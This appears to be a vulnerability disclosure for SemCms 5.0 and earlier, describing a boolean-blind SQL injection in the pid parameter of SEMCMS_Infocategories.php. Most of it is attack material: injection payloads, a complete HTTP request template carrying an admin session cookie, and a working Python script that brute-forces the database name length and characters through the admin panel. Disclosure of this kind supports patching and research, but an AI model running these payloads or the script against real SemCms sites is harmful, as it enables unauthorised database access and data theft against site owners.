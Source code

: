 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Infocategories.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the pid parameter in the SEMCMS_Infocategories.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background,URL：http://localhost:83/admin/SEMCMS_Infocategories.php?type=edit&pid=71&lgid=1&types=n

![image](https://github.com/user-attachments/assets/ec98a07a-55d9-4568-ac3f-b9fce439a8f8)

Among them, there is an SQL injection vulnerability in the pid parameter. Capture data packets and determine the database length: pid=if(length(database())>8,99,0)

![image](https://github.com/user-attachments/assets/7f7e939d-3fd8-4aeb-b6e4-fa11c9165d8b)
![image](https://github.com/user-attachments/assets/905a6e1a-d4b5-4c35-9986-c2249e27a45c)

As shown above, after Boolean blind annotation, the length of the database is obtained as 8. Next, determine the specific value of the database name:

![image](https://github.com/user-attachments/assets/9abfed4d-3527-49b5-8639-b2abbf4f5de6)

Finally, the database username is obtained as semcms50, and the yakit data packet:

```
GET /admin/SEMCMS_Infocategories.php?type=edit&pid=if(substr(database(),{{int(1-8)}},1)+like+"{{payload(word)}}",71,0)&lgid=1&types=n HTTP/1.1
Host: localhost:83
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Sec-Fetch-Dest: document
Accept-Language: zh-CN,zh;q=0.9
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Site: same-origin
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:83/admin/SEMCMS_Infocategories.php?pid=2&lgid=1
Sec-Fetch-Mode: navigate
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Accept-Encoding: gzip, deflate, br, zstd
```
# Code Analysis
Line 33 of `SEMCMS_Infocategories.php`

![image](https://github.com/user-attachments/assets/7dd10778-733b-4e98-9f1c-191f254f45cd)

The pid parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability

# Vulnerability exploitation script
```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要修改后台路径
# 需要更新Cookie



# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,71)'
        resp = send_request(base_url,header).text
        if 'Company' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",71,999)'
            resp = send_request(base_url, header).text
            if 'Company' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Infocategories.php?type=edit&lgid=1&types=n&pid="
    
    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    
```
